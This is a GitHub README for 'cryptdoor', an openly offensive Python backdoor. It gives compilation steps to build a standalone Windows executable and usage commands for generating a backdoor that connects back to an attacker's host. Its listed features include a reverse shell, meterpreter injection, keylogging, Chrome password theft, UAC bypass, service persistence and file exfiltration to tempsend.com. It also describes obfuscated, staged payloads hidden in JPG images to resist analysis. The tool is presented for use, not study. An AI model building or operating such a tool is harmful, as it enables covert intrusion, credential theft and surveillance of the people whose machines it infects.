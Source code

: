 cryptdoor
=========

AES encrypted python backdoor that communicates only AES encrypted traffic.
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).
We can also download and upload files over the secure AES encrypted connection.
Keylogging is implemented for windows using pyHook.
All traffic apart from traffic meterpreter makes are encrypted with AES.
On top of this all of the imports are randomized, and the script is encrypted with AES and decrypts 
itself in memory at runtime (taken from pyherion).

Compilation
=========

The backdoor script can be compiled to a standalone PE executable using pyinstaller on windows.

1. Install python27: https://www.python.org/ftp/python/2.7.8/python-2.7.8.msi
2. Run this script to install pip: https://bootstrap.pypa.io/get-pip.py
3. Press Windows Key+Pause, then "Advanced system settings" then "Environment Variables"
4. You might or not have a "PATH" variable listed there if not add one and write

        "C:\Python27;C:\Python27\Scripts"

If you do already have one just add a colon before adding this to the variable like:

        "C:\oldpath;C:\Python27;C\Python27\Scripts"

5. Open a new cmd terminal and you should be able to:

        pip install pyinstaller pycrypto requests

6. Add ';C:\Python27\Lib\site-packages\PyInstaller' to the end of your PATH variable
7. Install pyHook: http://sourceforge.net/projects/pyhook/files/latest/download
8. Install pywin32: http://sourceforge.net/projects/pywin32/files/pywin32/
9. Place the socks.py file in the same directory as backdoor.py if you want to use a proxy.
10. Open a new cmd promt and cd to wherever backdoor.py is.

        pyinstaller -F -w backdoor.py

11. That's it, enjoy your exe in dist.

Usage
=========

        usage: ./cryptdoor.py [options]

        optional arguments:
          -h, --help            show this help message and exit
          -i HOSTNAME, --hostname HOSTNAME
                                Ip or hostname to connect back to.
          -p PORT, --port PORT  Port to connect back to.
          -e EXPIRE, --expire EXPIRE
                        Payload Life: h=hour, d=day, w=week, m=month
          -u CUSTOMURL, --customurl CUSTOMURL
                        Host the generated jpg at this url.
          -a, --persistence     Enable Auto-persistence.
          -b BACKDOORNAME, --backdoorname BACKDOORNAME
                                Name of backdoor (default backdoor.py).
          -s SERVERNAME, --servername SERVERNAME
                                Name of server (default server.py).


cryptdoor.py will make the backdoor and server.
The syntax is:

        ./cryptdoor.py -i host -p port

You can add a -a to attempt automatic persistence:

        ./cryptdoor.py -i host -p port -a

host and port refer to the host and port of the listening server (attacker).
These are the options you have from within the shell:

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.
         wget url            -  Download a file from url to remote pwd.
         tempsend file       -  Upload a file from remote pwd to tempsend.com

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 unpersist           -  Remove persistence and exit.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.
    	 proxyupdate file    -  Update proxy list from file.

Proxies
=========  

NOTE: Proxying is temporarily disabled. Will be back soon.

If you wish to have your backdoor connect back to you through a HTTP/s proxy, there a few things we have to do:

1. Edit the stubs/backdoor.py script from line 310-311, and fill in the values for the proxy details.

2. Get a DDNS pointed at your IP (proxying will not work without one).

3. Then generate your backdoor with the -x switch and replace the IP with your DDNS hostname:

	./cryptdoor.py -i DDNS -p port -x

HTTP proxying is acheived using:

https://github.com/Anorov/PySocks


Obfuscation
=========

Obfuscation of the backdoor source code is acheived using:

https://github.com/astrand/pyobfuscate

Staged payload
=========
The backdoor payload can be hosted on tempsend.com or at a custom url and downloaded and exec'ed at runtime by the 
backdoor.py script.  
This means the actual backdoor code is not included in the final backdoor.py and is therefore further resistant to 
analysis.
The code will be hidden in a jpg that remains valid so it can be viewed.
The key for decrypting the payload code is kept in the downloader, so if anyone finds it online, they will not be able
to decrypt it.